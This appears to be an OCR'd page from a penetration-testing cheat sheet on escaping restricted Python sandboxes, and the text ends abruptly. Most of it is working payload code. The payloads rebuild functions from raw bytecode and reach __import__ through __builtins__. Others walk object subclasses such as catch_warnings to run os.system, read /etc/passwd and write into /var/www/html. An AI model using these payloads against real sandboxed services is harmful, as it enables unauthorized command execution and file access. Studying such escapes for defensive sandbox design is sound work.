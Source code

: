 If you cannot access eval or exec you could create a proper function, but calling it directly is usually going to fail with: constructor not accessible in restricted mode. So you need a function not in the restricted environment call this function.

#Compile a regular print
ftype = type(lambda: None)
ctype = type((lambda: None).func_code)
f = ftype(ctype(1, 1, 1, 67, '|\x00\x00GHd\x00\x00S', (None,), (), ('s',), 'stdin', 'f', 1, ''), {})
f(42)

Builtins

​Builtins functions of python2
​Builtins functions of python3​

If you can access to the__builtins__ object you can import libraries (notice that you could also use here other string representation showed in last section):

__builtins__.__dict__['__import__']("os").system("ls")

No Builtins

When you don't have __builtins__ you are not going to be able to import anything nor even read or write files. But there is a way to take that functionality back:

Python2

#Try to reload __builtins__
reload(__builtins__)
import __builtin__
​
# Read recovering <type 'file'> in offset 40
().__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
# Write recovering <type 'file'> in offset 40
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')
​
# Execute recovering __import__ (class 59s is <class 'warnings.catch_warnings'>)
().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os').system('ls')
# Execute (another method)
().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__("func_globals")['linecache'].__dict__['os'].__dict__['system']('ls')
# Execute recovering eval symbol (class 59 is <class 'warnings.catch_warnings'>)
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]["eval"]("__import__('os').system('ls')")
​
# Or you could recover __builtins__ in make eveything easier
__builtins__=([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__)
__builtins__["__import__"]('os').system('ls')
​
# Or you could obtain the builtins from a defined function
